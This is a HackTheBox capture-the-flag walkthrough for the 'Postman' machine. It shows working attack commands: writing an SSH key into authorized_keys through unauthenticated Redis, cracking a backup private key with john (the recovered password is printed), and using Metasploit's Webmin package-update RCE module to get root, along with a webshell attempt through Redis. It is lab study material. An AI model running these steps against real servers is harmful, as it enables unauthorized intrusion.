 ```yaml
---
title: HTB | Postman
author: Zeropio
date: 2023-01-01
categories: [Pentesting, HackTheBox]
tags: [htb, linux, easy, machines]
permalink: /pentesting/htb/machines/postman
image:
  path: /assets/img/hackthebox/card/Postman.png
  width: 800
  height: 500
---
```


# Fingerprint

## Scan

The scan show:

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46834ff13861c01c74cbb5d14a684d77 (RSA)
|   256 2d8d27d2df151a315305fbfff0622689 (ECDSA)
|_  256 ca7c82aa5ad372ca8b8a383a8041a045 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

Some of this version have exploits.

### Apache

The technologies used are:

```
http://10.10.10.160/ [200 OK] Apache[2.4.29], Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.160], JQuery, Script, Title[The Cyber Geek's Personal Website], X-UA-Compatible[IE=edge
```

Fuzzing will show:

```
upload                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 44ms]
fonts                   [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 43ms]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 2421ms]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 2423ms]
images                  [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 4453ms]
server-status           [Status: 403, Size: 300, Words: 22, Lines: 12, Duration: 46ms]
                        [Status: 200, Size: 3844, Words: 1027, Lines: 92, Duration: 55ms]
index.html              [Status: 200, Size: 3844, Words: 1027, Lines: 92, Duration: 51ms]
.htaccess               [Status: 403, Size: 296, Words: 22, Lines: 12, Duration: 42ms]
style.css               [Status: 200, Size: 24465, Words: 4058, Lines: 1422, Duration: 44ms]
.                       [Status: 200, Size: 3844, Words: 1027, Lines: 92, Duration: 46ms]

```

### Redis

We can do a further enumeration of the Redis server:

```
6379/tcp open  redis   Redis key-value store 4.0.9 (64 bits)
| redis-info: 
|   Version: 4.0.9
|   Operating System: Linux 4.15.0-58-generic x86_64
|   Architecture: 64 bits
|   Process ID: 668
|   Used CPU (sys): 1.62
|   Used CPU (user): 0.53
|   Connected clients: 1
|   Connected slaves: 0
|   Used memory: 821.52K
|   Role: master
|   Bind addresses: 
|     0.0.0.0
|     ::1
|   Client connections: 
|_    10.10.14.7
```

With `redis-cli` we will connect and get general information with `info`:

```console
$ redis-cli -h 10.10.10.160
10.10.10.160:6379> info
# Server
redis_version:4.0.9
```

Only the attack machine is connected:

```console
$ 10.10.10.160:6379> client list
id=16 addr=10.10.14.7:51346 fd=8 name= age=157 idle=0 flags=N db=0 sub=0 psub=0 multi=-1 qbuf=0 qbuf-free=32768 obl=0 oll=0 omem=0 events=r cmd=client
```

There doesn’t seem to be any database:

```console
$ 10.10.10.160:6379> info keyspace
# Keyspace
$ 10.10.10.160:6379>
```

The version is under ******5.0******, so [redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server) should work. But the shell doesn’t seem to work:

```console
$ python3 redis-rogue-server.py --rhost 10.10.10.160 --lhost 10.10.14.7

[<<] whoami
[<<] id
[<<]
```

Trying a webshell doesn’t success:

```console
10.10.10.160:6379> config set dir /usr/share/apache2/default-site
OK
10.10.10.160:6379> config set dbfilename redis.php
OK
10.10.10.160:6379> set test "<?php phpinfo(); ?>"
OK
10.10.10.160:6379> save
(error) ERR
```

### Webmin

This page is a typical webmin web:

```
http://10.10.10.160:10000/ [200 OK] Country[RESERVED][ZZ], HTTPServer[MiniServ/1.910], IP[10.10.10.160]
```

---

# Footprint

## Initial Access

We can try adding an SSH connection:

```console
$ ssh-keygen -t rsa
$ (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > spaced_key.txt
$ cat spaced_key.txt | redis-cli -h 10.10.10.160 -x set ssh_key 
OK
```

Add the SSH key:

```console
$ redis-cli -h 10.10.10.160
10.10.10.160:6379> config set dir /var/lib/redis/.ssh
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
```

And we can connect:

```console
$ ssh -i id_rsa redis@10.10.10.160
```

## Privilege Escalation

### User

We can get the user:

```console
redis@Postman:~$ ls /home
Matt
```

We can get a list of all the avaible ports:

```console
redis@Postman:/$ nc -z -v 127.0.0.1 1-65535 2>&1 | grep -v 'Connection refused'
Connection to 127.0.0.1 22 port [tcp/ssh] succeeded!
Connection to 127.0.0.1 80 port [tcp/http] succeeded!
Connection to 127.0.0.1 6379 port [tcp/*] succeeded!
Connection to 127.0.0.1 10000 port [tcp/webmin] succeeded!
Connection to 127.0.0.1 38582 port [tcp/*] succeeded!

redis@Postman:/$ nc -z -v 127.0.0.1 1-65535 2>&1 | grep -v 'Connection refused'
Connection to 127.0.0.1 22 port [tcp/ssh] succeeded!
Connection to 127.0.0.1 80 port [tcp/http] succeeded!
Connection to 127.0.0.1 6379 port [tcp/*] succeeded!
Connection to 127.0.0.1 10000 port [tcp/webmin] succeeded!
Connection to 127.0.0.1 41690 port [tcp/*] succeeded!
Connection to 127.0.0.1 54148 port [tcp/*] succeeded!
```

Some ports are moving, so we can ignore them. There is a RSA in `/opt/id_rsa.bak`{: .filepath} owned by ********Matt********. Cracking it display the following password:

```console
$ ssh2john id_rsa > hash.txt
$ john -w=/usr/share/wordlists/rockyou.txt hash.txt 
Created directory: /home/zeropio/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa)
```

But using it will display an error:

```console
$ ssh Matt@10.10.10.160 -i id_rsa
Enter passphrase for key 'id_rsa': 
Connection closed by 10.10.10.160 port 22
```

But the password will work for the user:

```console
redis@Postman:/tmp$ su Matt
Password: 
Matt@Postman:/tmp$
```

### Root

We can use this credentials for the webmin web. There, we can use metasploit:

```console
msf6> use exploit/linux/http/webmin_packageup_rce
msf6 exploit(linux/http/webmin_packageup_rce) > set username Matt
msf6 exploit(linux/http/webmin_packageup_rce) > set password computer2008
msf6 exploit(linux/http/webmin_packageup_rce) > set lhost tun0
msf6 exploit(linux/http/webmin_packageup_rce) > set rhosts 10.10.10.160
msf6 exploit(linux/http/webmin_packageup_rce) > set ssl true
msf6 exploit(linux/http/webmin_packageup_rce) > run
```

And we are root.
